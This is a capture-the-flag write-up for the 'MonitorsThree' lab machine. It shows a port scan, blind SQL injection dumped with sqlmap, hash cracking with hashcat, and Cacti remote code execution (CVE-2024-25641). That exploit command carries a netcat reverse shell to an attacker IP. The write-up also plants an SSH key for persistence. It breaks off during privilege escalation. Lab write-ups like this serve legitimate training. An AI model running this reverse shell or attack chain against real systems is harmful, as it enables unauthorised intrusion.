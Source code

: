 ```yaml
---
layout: post
title: "MonitorsThree"
date: 2024-10-04 10:04:00 +0000
categories: Writeup
---
```

MonitorsThree Writeup by <span style="color:yellow">jest</span>.

# Scan

```
Nmap scan report for 10.10.11.30
Host is up (0.025s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE    SERVICE VERSION
22/tcp   open     ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10
| ssh-hostkey:
|   256 86:f8:7d:6f:42:91:bb:89:72:91:af:72:f3:01:ff:5b (ECDSA)
|_  256 50:f9:ed:8e:73:64:9e:aa:f6:08:95:14:f0:a6:0d:57 (ED25519)
80/tcp   open     http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://monitorsthree.htb/
8084/tcp filtered websnp
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

&nbsp;

# SQL Injection

There is SQL injection on the forgot password page on the monitorsthree site.:

![image](https://github.com/user-attachments/assets/a4fae5cc-f532-49bb-8228-d0d3068cd8f1)

Verified with the input '.

It looks to be blind.

I captured the request sent via burpsuite and put it into a txt file, then used sqlmap to dump the contents of the database:

![image](https://github.com/user-attachments/assets/406a8e21-219c-4911-a3a6-319dfd25b8ea)


This allowed me to acquire 4 hashes:

```
sqlmap -r post.txt --dump
```

```
dthompson@monitorsthree.htb:633b683cc128fe244b00f176c8a950f5
janderson@monitorsthree.htb:1e68b6eb86b45f6d92f8f292428f77ac
mwatson@monitorsthree.htb:c585d01f2eb3e6e1073e92023088a3dd
admin@monitorsthree.htb:31a181c8372e3afc59dab863430610e8
```

We can try cracking the admin@monitorsthree credential:
```sh
hashcat -m 0 -a 0 31a181c8372e3afc59dab863430610e8 /usr/share/wordlists/rockyou.txt
```
This will provide a password.

&nbsp;

# Cacti

I found a cacti subdomain:

![image](https://github.com/user-attachments/assets/027392ce-169d-4c77-88b8-8cf7f41c7102)

Add this to /etc/hosts.

We now have access to cacti with the admin credentials:

![image](https://github.com/user-attachments/assets/380380ca-0ca6-44a3-8da8-23b43181b2a3)


Cacti 1.2.26 suffers from rce via import template.

Cacti doesn't validate file names given through the package import feature, allowing it to write files onto the system or overwrite existing fils(even outside the cacti base path, as path traversal isn't filtered).

More can be found <a href="https://github.com/Cacti/cacti/security/advisories/GHSA-7cmj-g5qc-pj88">here.</a>

I used an automated attack found <a href="https://github.com/StopThatTalace/CVE-2024-25641-CACTI-RCE-1.2.26">here.</a>

```python
my-venv/bin/python3 CVE-2024-25641.py \
    --user admin \
    --pass greencacti2001 \
    --cmd "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.11 666 >/tmp/f" \
    http://cacti.monitorsthree.htb/cacti/
```
After setting up a listener, this provides access to www-data on the machine.

Since cacti is in use, I enumerated that the credentials for the sql database were just the default cactiuser:cactiuser, so I could login and list the user hashes:

![image](https://github.com/user-attachments/assets/11e6e028-bacf-4c58-821e-94eb4945e8e2)

After cracking using hashcat, I can login as marcus via su:

![image](https://github.com/user-attachments/assets/91bc6910-641f-4d47-a441-ff2061cc073e)

&nbsp;

# Privilege Escalation

With a shell as marcus, I have to enumerate what this user can actually do.

I added my public key to the authorized key file and accessed the machine, whilst port forwarding 8200 on the box to port 8200 on my local machine.

I believe the path to root is related to duplicati backups, meaning we must crack the web ui so we can access them.


